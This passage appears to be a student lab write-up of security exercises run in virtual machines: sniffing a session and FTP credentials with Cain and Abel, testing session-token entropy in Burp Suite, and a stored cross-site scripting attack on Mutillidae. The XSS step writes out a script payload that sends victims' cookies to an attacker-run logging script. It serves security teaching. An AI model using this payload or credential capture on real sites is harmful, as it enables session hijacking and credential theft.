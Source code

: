         - Use Windows PowerShell to issue `net config workstation` and capture the command's output.

- **Slide 03**: Screenshot showing the successful session capture and related details in Cain and Abel.

<img src="https://i.imgur.com/f70s0ms.png" height="400px" width="auto" alt="Cain and Abel"/>

### Cain and Abel with FileZilla
**Task**: Use Cain and Abel to capture FTP credentials.
- **Steps**:
    1. On Kali Linux, download and open FileZilla, and log into an FTP server running on Ubuntu.
    2. On Windows 10, use Cain and Abel to capture the FTP username and password being used by the victim on Kali Linux.
- **Slide 04**: Screenshot showing the capture of FTP credentials.
    <img src="https://i.imgur.com/BZZz5gr.png" height="400px" width="auto" alt="Cain and Abel with FileZilla"/>

### Burp Suite Sequencer
**Task**: Test the entropy of session tokens created by Mutillidae using Burp Suite's Sequencer.
- **Steps**:
    1. On Kali Linux, reset the database in Mutillidae and clear all existing cookies in the browser.
    2. Navigate to the DNS page in Mutillidae and capture the Requests and Responses.
    3. Send the relevant packet to Sequencer and start live capture, analyzing session tokens.
- **Slide 05**: Screenshot showing the Sequencer analysis results.
    <img src="https://i.imgur.com/nr2T2qY.png" height="400px" width="auto" alt="Burp Suite Sequencer"/>

### Sending Cookie Information to Attacker

**Objective**: Demonstrate capturing and redirecting session cookies to an attacker-controlled server using a crafted Perl script.

**Steps**:
1. **Setup Perl Script**: Download `logit.pl` onto Kali Linux into `/var/cgi-bin/`. Rename, change ownership to `www-data`, and set appropriate permissions.
2. **Configure Apache2**: Ensure Apache2 can serve CGI scripts. Update Apache configuration to execute `logit.pl`.
3. **Prepare Attack Vector**: On Windows 10 VM, navigate to Mutillidae and create user accounts. Log in as 'Hacker' on Kali and as victim on Windows 10.
4. **Inject Script**: On Kali, use the 'Add to your blog' page in Mutillidae to inject `<script>document.location="http://folusername-kali/cgi-bin/logit.pl?"+document.cookie</script>`.
5. **Capture Data**: As the victim navigates the blog, the script redirects them, capturing and logging their session cookies to the attacker's server.

**Expected Outcome**:
- The session cookies of the victim are captured and logged by the `logit.pl` script on the attacker's server, demonstrating the vulnerability of insecure session handling.

**Slide 06**: Provide a screenshot demonstrating the successful capture and logging of session cookies due to the script injection.

html
<img src="https://i.imgur.com/oSensua.png" height="400px" width="auto" alt="Sending Cookie Information"/>
